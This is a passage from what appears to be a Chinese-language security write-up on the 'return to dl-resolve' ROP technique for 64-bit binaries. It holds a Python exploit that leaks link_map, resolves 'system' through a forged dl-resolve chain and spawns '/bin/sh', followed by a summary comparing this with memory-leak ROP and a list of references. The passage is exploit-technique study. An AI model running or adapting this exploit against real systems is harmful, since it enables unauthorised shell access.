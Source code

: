 ``` python
p.read(0x13)
addr_link_map = p.read_p64()
print("link_map is at %s" % hex(addr_link_map))
addr_dt_debug = addr_link_map + 0x1c8

buf = rop.call_chain_ptr(
    ['read', 0, addr_dt_debug, 8],
    [ptr_ret, addr_stage+400]
)
buf += rop.dl_resolve_call(addr_stage+300)
buf += rop.fill(300, buf)
buf += rop.dl_resolve_data(addr_stage+300, 'system')
buf += rop.fill(400, buf)
buf += rop.string('/bin/sh')
buf += rop.fill(420, buf)

p.write(buf)
p.write_p64(0)
p.interact(0)
```
确实相比mem leak构造ROP，简洁太多了……  

## 总结
之前，我的ROP方式，基本都是通过mem leak，读.got.plt，找到system的地址并调用；极少数情况下，无法mem leak，则是完全根据已有的gadget拼出ROP chain。现在，有了return to dl-resolve，就添加了一种思路。当然，对于64位，这种技术依然需要有读、写内存的gadgets。从理论上讲，有了这些gadgets, mem leak去找system的地址应该也可以。但相对来说，return to dl-resolve显得简洁、优雅一些。现在64位return to dl-resolve需要读内存，是为了找到link_map+0x1c8的地址以便写入。如果能够继续研究出不需要读内存的方法，则面对当下主流的64位NX, ASLR，return to dl-resolve的可适性会更加高。

## 参考
http://phrack.org/issues/58/4.html#article  

http://docs.oracle.com/cd/E23824_01/html/819-0690/chapter6-42444.html  

https://www.cs.stevens.edu/~jschauma/631/elf.html  

http://inaz2.hatenablog.com/entry/2014/07/27/205322  